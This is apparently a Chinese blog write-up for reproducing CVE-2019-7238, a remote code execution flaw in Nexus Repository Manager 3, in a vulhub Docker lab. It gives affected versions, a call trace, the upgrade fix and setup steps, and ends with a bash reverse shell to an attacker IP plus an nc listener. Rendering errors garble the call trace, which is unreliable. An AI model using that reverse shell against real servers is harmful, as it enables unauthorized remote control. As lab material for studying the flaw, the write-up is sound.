



### 影响版本

Nexus Repository Manager OSS/Pro 3.6.2 版本到 3.14.0 版本

Nexus Repository Manager 3  是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。


# 漏洞成因

\###由于未授权访问的用户可以构造请求而造成任意代码执，触发流程如下：

ExtDirectModuleKaTeX parse error: Expected 'EOF', got '#' at position 14: configure:60 #̲ 路由绑定与请求解析 ExtD…doPost:155 # 处理post请求
 DirectJNgineServletKaTeX parse error: Expected 'EOF', got '#' at position 12: doPost:595 #̲ 根据不同的Content-T…processRequest:632 # 解析json请求
 JsonRequestProcesorKaTeX parse error: Expected 'EOF', got '#' at position 13: process:119 #̲ 解析json语法树 Json…getIndividualJsonRequests:216 # 提取json数据
 JsonRequestProcesorKaTeX parse error: Expected 'EOF', got '#' at position 13: process:133 #̲ 构造返回结构 Compone…previewAssets:188 # 解析post包中的data数据并构造查询语句查询包
 ComponentComponentKaTeX parse error: Expected 'EOF', got '#' at position 19: …viewAssets:208 #̲ 获得查询结果 BrowseS…previewAssets:252 # 构建OrientDb查询语句
 BrowseServiceImplKaTeX parse error: Expected 'EOF', got '#' at position 19: …viewAssets:258 #̲ 拼接查询语句 BrowseS…previewAssets:262 # 执行查询
 MetadataNodeEntityAdapterKaTeX parse error: Expected 'EOF', got '#' at position 18: …untByQuery:221 #̲ 执行OrientDb查询语句…execute:125 # 提取jexl表达式
 ContextExpressionFunction$checkJexlExpression:15

# 修复方法

目前官方已经发布新版本修改了该漏洞，建议您参照上述【安全版本】升级到对应的最新版本。

最新版本下载链接：

https://help.sonatype.com/repomanager3/download

# 环境搭建

1.在centos 7 上安装docker和docker-compose

```
(1).安装PIP
curl -s https://bootstrap.pypa.io/get-pip.py | python3
(2).安装docker
curl -s https://get.docker.com/ | sh
(3).启动docker服务
service docker start
123456
```



```
(4).安装docker compose
pip install docker-compose
12
```

2.使用方法

```
(1).下载漏洞环境项目
git clone https://github.com/vulhub/vulhub.git
(2).进入到nexus利用环境
cd vulhub/nexus/CVE-2019-7238
(3).编译环境
docker-compose build
123456
```


```
(4).执行如下命令启动Nexus Repository Manager 3.14.0
docker-compose build
12
```

# 漏洞复现

1.进入到CVE-2019-7238目录
 cd CVE-2019-7238
 2.修改cve-2019-7238.py.这里根据实际情况来修改remote = ‘ http://192.168.1.144:8081 （存在漏洞的主机ip地址）‘和 ARCH = “ LINUX ”的值，浏览器中访问http://192.168.1.144:8081,如下图所示：
 

3.在攻击者系统中执行cve-2019-7238.py脚本，然后输入反弹NC的bash（此处的IP地址是攻击者的ip地址，即192.168.1.165，端口任意）
 bash -i >& /dev/tcp/192.168.1.165/2333 0>&1
 
 4.在攻击者系统中执行NC监听反弹（在攻击机上执行反弹shell，即在192.168.1.165机器上）
 nc -lvvp 2333
 

\#参考链接：